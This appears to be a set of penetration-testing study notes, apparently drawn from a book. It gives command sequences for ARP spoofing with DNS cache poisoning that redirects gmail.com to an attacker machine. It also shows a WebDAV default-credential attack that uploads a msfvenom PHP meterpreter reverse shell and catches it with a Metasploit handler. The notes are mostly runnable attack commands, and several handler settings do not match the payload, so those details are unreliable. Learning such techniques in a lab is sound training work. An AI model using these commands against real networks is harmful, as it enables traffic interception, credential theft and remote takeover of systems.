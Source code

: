  Note: routing all gateway traffic through a single laptop can impact network performance.

# DNS Cache Poisoning

Very similar to ARP spoofing. Spoofs a DNS request to point to an attacking machine.

```
service apache2 start # starts web server on our machine
# create a file that maps our ip address to a web address
cat > hosts.txt
192.168.20.9 www.gmail.com

# routing gateway traffic through our machine
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward # turn IP forwarding on
sudo arpspoof -i eth0 -t 192.168.20.11 192.168.20.1
sudo arpspoof -i eth0 -t 192.168.20.1 192.168.20.11

dnsspoof -i eth0 -f hosts.txt
```

# SSL Attacks

page 170

## Exploiting WebDAV Default Credentials

```
# create a test file
cat > test.txt
test

# now use Cadaver to upload the file to WebDAV, login: wampp:xampp
cadaver http://192.168.20.10/webdev
put test.txt

# navigate to 192.168.20.10/webdev/test.txt to see the test file

# create a payload with Msfvenom
msfvenom -l payloads # show payloads
# create a php reserse shell
msfvenom -p php/meterpreter/reverse_tcp -o # displays required options for the payload
# create the payload
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=2323 -f raw > meterpreter.php

# now use cadaver to upload the payload:
put meterpreter.php

# create a console with Metasploit for the reverse shell to connect to:
msfconsole # starts the console
use multi/handler # loads the exploit module
set payload windows/meterpreter/reverse_tcp
show options # show options that must be provided to use the exploit
set LHOST 192.168.20.10 # sets the RHOST option
set LPORT 12345
exploit

# use the Meterpreter command getuid to see our privileges
getuid
```



